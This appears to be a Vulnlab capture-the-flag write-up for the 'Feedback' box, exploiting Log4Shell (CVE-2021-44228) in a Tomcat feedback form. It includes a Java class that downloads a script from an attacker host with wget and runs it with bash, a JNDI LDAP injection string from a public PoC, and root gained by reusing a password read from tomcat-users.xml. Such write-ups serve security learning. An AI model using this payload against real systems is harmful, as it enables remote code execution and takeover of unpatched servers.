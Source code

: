 ```yaml
---
title: Vulnlabs Feedback
author: kino
date: 2023-08-10 00:34:00 +0800
categories: [Tutorial]
tags: [vulnlabs, writeups]
---
```

# Vulnlab: Feedback

`Difficulty:` Easy

## Summary:

- Apache Tomcat
- /feedback Directory where "feedback" is logged using Java
- Log4Shell (CVE-2021-44228)
- Password Reuse

### Initial Scan
Initial Nmap scan shows an Apache Tomcat running over HTTP on port 8080.
```shell
➜  ~ nmap -sC -sV 10.10.120.186
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 20:16 EDT
Nmap scan report for 10.10.120.186
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 93:54:07:04:92:d4:1f:fd:54:21:5e:b2:db:ca:7c:ad (RSA)
|   256 f6:ec:e3:d7:97:e6:34:38:62:fe:58:2a:b0:98:21:99 (ECDSA)
|_  256 ca:5a:8b:bc:12:4f:8e:9f:13:30:ff:c1:40:fe:a0:d7 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Visiting the page reveals it is a default page with nothing inherently suspicious. 

### Directory Fuzzing

A quick Dirb scan reveals the /feedback directory.
```shell
➜  ~ dirb http://10.10.117.96:8080

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Aug  9 21:03:03 2023
URL_BASE: http://10.10.117.96:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.117.96:8080/ ----
+ http://10.10.117.96:8080/docs (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/examples (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/favicon.ico (CODE:200|SIZE:21630)
+ http://10.10.117.96:8080/feedback (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/host-manager (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/manager (CODE:302|SIZE:0)

-----------------
END_TIME: Wed Aug  9 21:15:25 2023
DOWNLOADED: 4612 - FOUND: 6
```

This page allows us to submit feedback. When successful the page tell us that our feedback has been 'logged'. Even without the context clues this can be verified by viewing source.

```html
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF 8">
        ...
    </head>
    <body>
        ...
        <!-- Builb with Java, Struts2 & Log4J -->
    </body>
</html>
```

### Log4Shell
You can either create your own java payload or work your way around the GitHub PoC.

https://vulndev.io/2021/12/11/lab-exploiting-log4shell-cve-2021-44228/
```java
public class RCE {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://Attacker/x -O /tmp/x");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/x");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public RCE(){
        System.out.println("Is this RCE?");
    }
}
```

https://github.com/kozmer/log4j-shell-poc
```shell
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Pretty much, we are able to use JNDI (Java Naming and Directory Interface) as a means to interract when an attacker LDAP server. We host our payload and when the feedback request gets parsed it will download our payload and run it (giving us a shell).

### Root
Simple Password reuse to wrap it all up.
```shell 
tomcat@ip-10-10-10-7:~/conf$ ls
ls
catalina.policy      jaspic-providers.xml  server.xml	     web.xml
catalina.properties  jaspic-providers.xsd  tomcat-users.xml
context.xml	     logging.properties    tomcat-users.xsd
tomcat@ip-10-10-10-7:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="[*****]" roles="manager-gui"/>
  <user username="robot" password="[*****]" roles="manager-script"/>

</tomcat-users>
tomcat@ip-10-10-10-7:~/conf$ su root
su root
Password: [*****]
root@ip-10-10-10-7:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-10-7:~# ls
ls
root.txt  snap
  ```


